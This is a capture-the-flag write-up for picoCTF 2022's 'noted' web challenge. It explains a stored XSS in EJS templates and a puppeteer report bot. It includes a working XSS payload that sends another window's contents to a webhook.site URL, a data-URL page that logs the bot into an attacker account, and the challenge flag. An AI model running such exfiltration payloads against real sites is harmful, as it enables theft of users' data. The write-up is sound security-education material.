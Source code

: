 # picoCTF 2022 

> Darshan Patel

### Overview

| Tables          | Description      |
| --------------- | -----------------|
| Category        | Web Exploitation |
| Challenge Name  | noted  |
| Points          | 500              |

### Description
I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right? Note that the headless browser used for the "report" feature does **not** have access to the internet. Create an account at this [website](http://saturn.picoctf.net:60244/). Source code: [noted.tar.gz](noted.tar.gz).

### Approach

Looking at the `package.json` in the source code reveals what technologies we are dealing with:

```json
"dependencies": {
    "argon2": "^0.28.3",
    "ejs": "^3.1.6",
    "fastify": "^3.25.3",
    "fastify-csrf": "^3.1.0",
    "fastify-formbody": "^5.2.0",
    "fastify-secure-session": "^3.0.0",
    "point-of-view": "^5.0.0",
    "puppeteer": "^13.0.1",
    "sequelize": "^6.12.5",
    "sqlite3": "^5.0.2"
}
```

We have a Node application powered by the [fastify](https://www.fastify.io/) framework. It is using the [EJS templating language](https://ejs.co/). There is a sqlite3 database. Immediately, `puppeteer` draws my attention since [puppeteer](https://github.com/puppeteer/puppeteer) is a headless API for Chrome. So, we likely will have to manipulate a Chrome browser.

The actual website allows users to register, sign in, create a new note with a title and body, and view their notes. Importantly, there is also a report function, where we can specify a URL to report.

Looking back at the source code, in `views/notes.ejs` we see that the `<%-` tag is used, which "outputs the unescaped value into the template" according to the [EJS docs](https://ejs.co/#docs) under the "Tags" heading. This means we can injection HTML code into the `/notes` page. Creating a new note with `<script>alert(1)</script>` in the body and going to `/notes` displays the alert box, which confirms our suspicion. This is probably what the first hint was referring to.

In `report.js` we can see what happens when we submit a URL using the report function. `puppeteer` is used to create an account on the website using a random username and password that cannot be bruteforced. Then, the browser navigates to the new node page, creates a note with the flag as the contents, and navigates to `about:blank`, which is just a bank page. Then, 7.5 seconds later, the browser is closed.

So, right now, our XSS exploit cannot be used to get the flag since we can only inject HTML into a page that only our account can visit.

After inputting various URLs into the report option, I noticed that the puppeteer instance actually does have internet connectivity, despite the challenge description saying it doesn't. This should make our exploit a little simpler. Navigating to [webhook.site](https://webhook.site) and then pasting the provided URL into the report option and pressing submit, shows a GET request coming from the application.

So, the exploitation plan is as follows:

1. Create an attacker controlled account with credentials `a:a`.
2. Create a new note on that account containing a script that reads the HTML of a window named `pico` and sends it to our webhook.
3. Then, we will send a report request for a page that will open a window named `pico` to the `/notes` page containing the flag. Our page/script will then login to our attacker account and go to the `/notes` page, triggering our XSS payload (which will read the `/notes` page containing the flag and send it to our webhook).

This is possible because of `window.open`. According to the [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/open), we can use the syntax `open(url, target)`, where `url` is the URL we want to open and `target` is the name of the window that the resource is being loaded into. In a normal browser, using `window.open` prompts the user if they want to allow a popup window to open, but in headless Chrome, `window.open` will work without interaction, which is probably what hint 3 refers to.

Additionally, as long as the opened page is on the same origin, then we can interact with and read the DOM of the opened page. This is because the return value of `window.open` is a [WindowProxy](https://developer.mozilla.org/en-US/docs/Glossary/WindowProxy) object. [MDN states](https://developer.mozilla.org/en-US/docs/Web/API/Window/open#return_value) that "the returned reference can be used to access properties and methods of the new window as long as it complies with Same-origin policy security requirements."

We will use [webhook.site](https://webhook.site) to receive data since it's free, doesn't require an account, and publicly accessible. [requestbin.com](https://requestbin.com/) is an alternative and [ngrok](https://ngrok.com/) could also be used.

We do step 1 manually.

For step 2, we use the below code:

```html
<script>
if (window.location.search.includes("run_xss")) {
    window.location = "https://webhook.site/d84a226b-8c34-494f-b6d4-6022aded5b82?" + window.open("", "pico").document.body.textContent
}
</script>
```

If the window's current URL contains `run_xss` as a parameter in the URL, then the window will be redirected (which is just a simple way to cause a GET request) to our webhook with the text content of the `pico` window as a parameter. We pass an empty string to the `url` parameter of `window.open` so that a new page is not loaded and we can access the currently loaded object.

For step 3, we will create a simple page and pass it into the report function using the `data:text/html` [data url](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs). This is probably what the second hint was referring to since we are not using HTTP(S). Below is the payload:

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id="login_form" target="_blank">
    <input type="text" name="username" value="a"><input type="text" name="password" value="a">
</form>
<script>
    window.open("http://0.0.0.0:8080/notes", "pico");
    setTimeout(function() {login_form.submit()}, 1000);
    setTimeout(function() {window.location="http://0.0.0.0:8080/notes?run_xss"}, 2000);
</script>
```

We create a form that will cause the login to occur when it is submitted. The target is `_blank` so that it opens in a new window and does not stop our script from running (by opening in the current window). Additionally, the form has the username and password fields already filled out so nothing needs to be inputted. We use a form on a whole new page instead of making the POST request using JavaScript (using the [`fetch` api](https://stackoverflow.com/a/47065313)) so that the login cookie is set.

Then, our script performs the following actions:

1. Open a new window named `pico` (so we can refer to it using our XSS payload) and open the `/notes` page with the flag on it.
2. Wait 1 second and then submit the form to login to the site on the attacker account that we control. This happens in a new window.
3. Wait another second and then change the current window's location (which has been `about:blank` until now) to the `/notes` page with our `run_xss` parameter, causing our XSS to run, which will grab the text content from the `pico` window containing the flag and send it to our webhook.

Now, all there is to do is create a note on our `a:a` account with the second step's XSS payload. Then, paste step 3's payload into the report function and click "Report". In a few seconds you should see the flag appear in the webhook requests panel.

### Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
````
